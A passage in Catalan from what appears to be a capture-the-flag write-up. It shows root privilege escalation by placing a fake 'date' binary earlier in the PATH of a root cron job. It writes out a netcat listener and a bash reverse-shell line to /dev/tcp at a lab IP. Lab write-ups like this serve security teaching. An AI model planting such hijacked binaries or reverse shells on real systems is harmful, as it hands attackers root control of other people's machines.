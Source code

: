 ```bash
# Mantenir només els dos últims backups
/bin/ls -t $CARPETA_BACKUP | /usr/bin/sed -e '1,2d' | /usr/bin/xargs -d '\n' /bin/rm -f
```

Sembla que el fitxer crea un backup de la BD en una carpeta a la qual no tenim permisos. 

Tots els binaris que s'utilitzen dins del fitxer `backup_bd.sh` i el propi fitxer són cridats amb paths absoluts, impedint una suplantació de binari amb ells. En canvi, el paràmetre enviat al fitxer utilitza el binari `date` sense una adreça absoluta.

![date no absolute](../../../assets/images/securitron/image-36.png)

Si comprovem on es troba el fitxer `date`, es troba a `/usr/bin/date`,

![alt text](../../../assets/images/securitron/image-37.png)

i com el PATH del crontab de root està configurat de la següent forma:

`PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/home/securitybot/.local/bin:/usr/bin:/sbin:/bin`

podem crear un fitxer `date` a la carpeta `/home/securitybot/.local/bin` que es troba abans que la carpeta `/usr/bin`, fent que la tasca programada de l'usuari root executi el nostre fitxer suplantat.

Ens posem a escoltar amb netcat al port 12345.

```bash
nc -lvnp 12345
```

Creem el fitxer `/home/securitybot/.local/bin/date` al servidor amb una revshell i li donem permisos d'execució:

```bash
echo "bash -c '/bin/bash -i >& /dev/tcp/10.0.2.15/12345 0>&1'" > /home/securitybot/.local/bin/date
chmod +x /home/securitybot/.local/bin/date
```

Esperem un minut i obtenim una shell amb privilegis de l'usuari root i llegim el fitxer de la flag.

![root flag](../../../assets/images/securitron/image-38.png)